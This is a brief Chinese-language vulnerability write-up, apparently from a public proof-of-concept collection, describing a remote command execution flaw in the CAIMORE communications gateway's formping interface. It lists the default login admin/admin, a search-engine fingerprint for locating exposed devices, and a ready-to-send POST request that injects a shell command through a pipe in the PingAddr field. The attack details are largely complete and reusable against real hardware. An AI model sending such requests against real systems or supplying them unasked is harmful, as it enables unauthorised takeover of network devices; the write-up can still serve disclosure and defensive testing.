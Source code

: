 # 才茂通信 网关 formping 远程命令执行漏洞

# 才茂通信 网关 formping 远程命令执行漏洞

## 漏洞描述

才茂通信网关 formping 接口存在远程命令执行漏洞，攻击者通过默认口令 admin/admin 登陆系统后通过命令可以获取服务器权限

## 漏洞影响

```
才茂通信 网关
```

## 网络测绘

```
app="CAIMORE-Gateway"
```

## 漏洞复现

登陆页面，默认口令 admin/admin

![image-20230417100349175](images/image-20230417100349175.png)

验证POC

```
POST /goform/formping
Authorization: Basic YWRtaW46YWRtaW4=

PingAddr=www.baidu.com%7Cls&PingPackNumb=1&PingMsg=
```

![image-20230417100401289](images/image-20230417100401289.png)

